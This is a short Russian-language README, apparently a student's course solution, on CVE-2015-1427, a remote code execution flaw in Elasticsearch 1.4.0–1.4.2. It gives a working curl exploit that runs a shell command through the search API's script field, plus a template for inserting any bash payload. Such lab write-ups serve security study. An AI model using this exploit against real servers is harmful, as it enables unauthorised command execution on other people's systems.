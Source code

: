 # CVE-2015-1427
Уязвимость RCE есть в Elastic search 1.4.0 < 1.4.2. 
Elasticsearch – это одна из самых популярных поисковых систем в области Big Data, масштабируемое нереляционное хранилище данных с открытым исходным кодом, аналитическая NoSQL-СУБД с широким набором функций полнотекстового поиска.

## Как работает эксплоит?
Мы использовали данный сплоит:
```bash
curl -s http://localhost:9200/_search\?pretty -XPOST -d '{"script_fields": {"myscript": {"script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"whoami\").getText()"}}}' | grep "myscript" | awk -F '\\[ "' '{print $2}' | sed 's/\\n" ]//g'
```
Он работает следующим образом - посылается POST-запрос с полезной нагрузкой на хост, где используется уязвимая версия Elastic Search'a.
## Как запускается эксплоит?
Запуск эксплойта происходит в среде bash с помощью программы curl(можно любой софт, который позволяет отправлять POST-запросы):

Полезная нагрузка находится в JSON-структуре `script`:
```
"script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"ТУТ ЛЮБОЙ BASH-ПЭЙЛОАД").getText()"
```
![]((https://github.com/waqeen/cyber_security21/blob/scriptkiddies/solutions/cve-2015-1427/images/full_access.png))